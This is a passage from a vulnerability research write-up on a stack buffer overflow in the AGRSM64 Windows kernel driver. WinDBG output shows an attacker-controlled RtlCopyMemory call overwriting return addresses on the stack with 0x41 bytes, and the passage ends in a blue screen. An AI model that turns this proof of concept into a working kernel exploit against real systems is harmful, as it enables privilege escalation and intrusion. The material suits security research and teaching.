 After rebasing the disassembled driver in Ghidra we can set a breakpoint to `RTLCopyMemory` and inspect the values. Remember x64 Application Binary Interface (ABI) uses a four-register fast-call calling convention, which means our function parameters are stored in `RCX`, `RDX` and `R8`. WinDBG output confirms we can control the source parameter and size for `RTLCopyMemory`:

```
2: kd> bp 0xfffff8032b444abc
2: kd> g
Breakpoint 0 hit
AGRSM64+0x14abc:
fffff803`2b444abc ff1596350d00    call    qword ptr [AGRSM64+0xe8058 (fffff803`2b518058)]
4: kd> dq rcx l1
ffff8189`3402f580  00000000`00000150
4: kd> dq rdx
ffff998c`401af640  41414141`41414141 41414141`41414141
ffff998c`401af650  41414141`41414141 41414141`41414141
ffff998c`401af660  41414141`41414141 41414141`41414141
ffff998c`401af670  41414141`41414141 41414141`41414141
ffff998c`401af680  41414141`41414141 41414141`41414141
ffff998c`401af690  41414141`41414141 41414141`41414141
ffff998c`401af6a0  41414141`41414141 41414141`41414141
ffff998c`401af6b0  41414141`41414141 41414141`41414141
4: kd> .formats r8
Evaluate expression:
  Hex:     00000000`000000fa
  Decimal: 250
  Decimal (unsigned) : 250
```

After we return from `RTLCopyMemory` we can see we have successfully corrupted some return addresses on the stack:

```windbg
4: kd> k
 # Child-SP          RetAddr               Call Site
00 ffff8189`3402f658 41414141`41414141     AGRSM64+0x14155
01 ffff8189`3402f660 41414141`41414141     0x41414141`41414141
02 ffff8189`3402f668 41414141`41414141     0x41414141`41414141
03 ffff8189`3402f670 41414141`41414141     0x41414141`41414141
04 ffff8189`3402f678 fffff803`2b554141     0x41414141`41414141
05 ffff8189`3402f680 ffff998c`3f541e10     AGRSM64+0x124141
06 ffff8189`3402f688 ffff998c`3f9d7240     0xffff998c`3f541e10
07 ffff8189`3402f690 00000000`00040286     0xffff998c`3f9d7240
08 ffff8189`3402f698 fffff803`21af83a9     0x40286
09 ffff8189`3402f6a0 fffff803`212b3ee5     nt!_guard_retpoline_exit_indirect_rax+0x9
0a ffff8189`3402f6f0 fffff803`21726350     nt!IofCallDriver+0x55
0b ffff8189`3402f730 fffff803`2172862f     nt!IopSynchronousServiceTail+0x1d0
0c ffff8189`3402f7e0 fffff803`21727616     nt!IopXxxControlFile+0xfff
0d ffff8189`3402f9c0 fffff803`21446ee8     nt!NtDeviceIoControlFile+0x56
0e ffff8189`3402fa30 00007ffa`a114ee34     nt!KiSystemServiceCopyEnd+0x28
```

Proceeding further we a greeted with a wonderful Blue Screen of Death.
